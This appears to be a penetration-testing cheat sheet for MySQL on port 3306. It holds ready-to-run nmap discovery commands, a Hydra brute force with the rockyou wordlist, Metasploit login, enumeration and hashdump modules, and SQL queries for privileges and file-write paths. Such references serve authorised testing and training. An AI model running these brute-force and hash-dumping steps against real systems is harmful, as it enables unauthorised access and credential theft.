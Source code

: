 Discovery and versioning:
```bash
# Quick port and service/version detection
nmap -sV -sC -p3306 TARGET

# Focused MySQL NSE checks (unauthenticated)
nmap -p3306 --script mysql-info,mysql-variables,mysql-empty-password TARGET
```

Password attacks:
```bash
# Fast checks for common defaults
mysql -h TARGET -P 3306 -u root      # Press Enter if prompted for a password (tests empty)
mysql -h TARGET -P 3306 -u root -p   # Try common passwords manually if allowed

# Hydra brute force (service name: mysql)
hydra -l root -P /usr/share/wordlists/rockyou.txt -s 3306 -f -o hydra_mysql.txt -t 4 TARGET mysql
```

Metasploit (alternative to hydra + scripted enumeration):
```bash
msfconsole -q
use auxiliary/scanner/mysql/mysql_login
set RHOSTS TARGET
set USERNAME root
set PASS_FILE /usr/share/wordlists/rockyou.txt
set BLANK_PASSWORDS true
set STOP_ON_SUCCESS true
run

# Set credentials globally once found
setg RHOSTS TARGET
setg USERNAME root
setg PASSWORD Passw0rd!
use auxiliary/admin/mysql/mysql_enum
run
use auxiliary/scanner/mysql/mysql_hashdump
run
```

Manual login and enumeration:
```bash
# Login (TCP)
mysql -h TARGET -P 3306 -u USER -p

# Inside MySQL shell:
SHOW VARIABLES LIKE '%version%';
SELECT VERSION(), @@version_comment;
SELECT USER(), CURRENT_USER();
SHOW GRANTS FOR CURRENT_USER();

-- Core recon
SHOW DATABASES;
USE information_schema;
SHOW TABLES;
SELECT schema_name FROM information_schema.schemata;

-- Server paths/privileges relevant to file I/O
SHOW VARIABLES LIKE 'secure_file_priv';
SHOW VARIABLES LIKE 'plugin_dir';
SHOW VARIABLES LIKE 'datadir';
SHOW VARIABLES LIKE 'local_infile';
```
